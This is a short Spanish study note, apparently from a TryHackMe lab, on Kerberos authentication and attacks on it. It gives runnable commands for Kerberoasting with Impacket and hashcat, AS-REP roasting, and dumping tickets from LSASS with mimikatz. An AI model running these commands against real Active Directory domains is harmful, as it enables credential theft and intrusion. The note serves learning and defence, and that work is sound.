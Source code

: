 # Attacking Kerberos

![Captura](/assets/Captura.PNG)


## Proceso de autenticación
### Pre autenticacion
1. Se hace enviando un mensaje de tipo **AS_REQ**

    *AS_REQ = Nombre cliente + Nombre principal del servicio (SPN) + (timesnap + hash(password))*
2. En caso de EXITO Se recibe el mensaje **AS_REP**
   Este nos envia el TGT 
    *AS_REP = Nombre cliente + (Cip(session key) + TTL) + TGT(Session Key + Token Info + TTL )*

3. En caso de fallo se recibe el mensaje de tipo **KRB-ERROR**

Algunas cuentas no requieren preautenticación y son vulnerables a **AS REPRoasting**.


### Acceso a servicios 

 * Es necesario tener el ticket TGT.
 * Con el TGT se evita volver a introducir contraseñas en el servidor.

Para obtener el ticket del servicio se realizan los siguientes pasos:

  1. Enviar ticket granting service request **TGS_REQ**
     1. *TGS_REQ = SPN + Nombre Cliente + TIMESTAMP + TGT*
  2. Recibe mensaje  **TGS_REP**


## Conceptos
### Service Principal Names (SPN)
Se usa para identificar a los servicios dentro del DC.
Tienen el formato:
    Service_ID/host[:\d]
    http/WEB01.cohovines.com
    MSSQLSvc/DB01.cohovines.com:1433

### User Principal Names (UPN)
Un servicio puede tener muchos UPN 

### Kerberosasting 

Consiste en consultar un ticket por medio de un SPN, se obtiene el ticket y se crakea el ticket.


sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.211.75 -request -outputfile /home/kali/thm/KerberosServer/salidaHash

hashcat -m 13100 --force  salidaHash /usr/share/wordlists/rockyou.txt

## AS-REP Roasting

Es cuando la preautenticacion esta deshabilitada y obtienes un TGT.
El tipo de hash que usan los paquetes **AS-REP** es *Kerberos 5 AS-REP etype 2*

sudo python3 GetNPUsers.py controller.local/ -no-pass -usersfile /home/kali/thm/KerberosServer/User.txt

## Dumpear los tickets del proceso LSASS 


mimikatz.exe
# verificamos los privilegios
privilege::debug
sekurlsa::tickets /export










